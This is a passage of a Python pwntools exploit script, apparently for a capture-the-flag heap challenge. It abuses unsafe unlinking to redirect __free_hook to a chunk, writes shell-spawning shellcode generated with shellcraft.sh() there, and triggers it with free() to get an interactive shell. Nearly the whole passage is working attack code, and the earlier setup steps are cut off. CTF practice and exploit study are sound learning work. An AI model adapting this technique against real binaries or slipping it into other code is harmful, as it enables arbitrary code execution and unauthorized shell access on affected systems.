 ```python
    edit(0, data)

    # Free chunk B, heap will try to consolidate A and B with unlinking
    # Overwrite fd with bk, bk with fd due to unsafe unlinking
    # __free_hook now points to data of chunk A
    free(1)

    # Write shellcode into data of chunk A
    shellcode = asm(shellcraft.sh())
    edit(0, shellcode)

    # Pop shell using free() and __free_hook
    free(0)
    
    lg('heap_addr: ' + hex(heap_addr))

    p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])
    libc = elf.libc

    p = process(elf.path)
    pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```
